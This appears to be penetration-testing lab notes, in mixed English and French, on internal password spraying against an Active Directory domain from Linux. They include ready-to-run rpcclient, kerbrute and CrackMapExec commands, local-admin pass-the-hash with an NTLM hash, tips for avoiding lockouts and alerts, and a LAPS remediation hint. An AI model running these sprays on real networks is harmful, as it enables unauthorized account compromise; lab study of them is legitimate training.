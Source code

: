 # Internal Password Spraying - from Linux

***

### <mark style="color:red;">Internal Password Spraying from a Linux Host</mark>

<mark style="color:green;">**Using a Bash one-liner for the Attack**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
{% endcode %}

We can also use `Kerbrute` for the same attack as discussed previously.

<mark style="color:green;">**Using Kerbrute for the Attack**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

```
{% endcode %}

<mark style="color:green;">**Using CrackMapExec & Filtering Logon Failures**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
{% endcode %}

After getting one (or more!) hits with our password spraying attack, we can then use `CrackMapExec` to validate the credentials quickly against a Domain Controller.

<mark style="color:green;">**Validating the Credentials with CrackMapExec**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
{% endcode %}

***

### <mark style="color:red;">Local Administrator Password Reuse</mark>

Le **password spraying** interne permet d’utiliser un même mot de passe sur plusieurs machines, notamment pour les comptes administrateurs locaux. Cela est possible si un attaquant a accès au **hachage NTLM** ou au mot de passe en clair de l'administrateur local.

Les administrateurs utilisent souvent le même mot de passe pour plusieurs machines, ce qui rend ce type d'attaque efficace. Les outils comme **CrackMapExec** permettent de tester ce mot de passe sur plusieurs machines sans risquer de **verrouiller les comptes** en raison de trop nombreuses tentatives échouées.

L'attaquant peut aussi trouver des **comptes avec des mots de passe réutilisés**, par exemple un administrateur local dont le mot de passe pourrait être réutilisé pour un compte utilisateur de domaine similaire.

Parfois, un hachage NTLM est récupéré, et l'attaquant peut alors essayer ce hachage sur tout un sous-réseau pour vérifier si d'autres machines ont le même mot de passe.

**CrackMapExec** offre une option de **connexion unique** pour éviter de bloquer des comptes en raison de tentatives échouées multiples. Cela permet de tester des mots de passe sur un grand nombre de machines sans risque d'alerte.

<mark style="color:green;">**Local Admin Spraying with CrackMapExec**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
{% endcode %}

{% hint style="danger" %}
&#x20;One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.
{% endhint %}
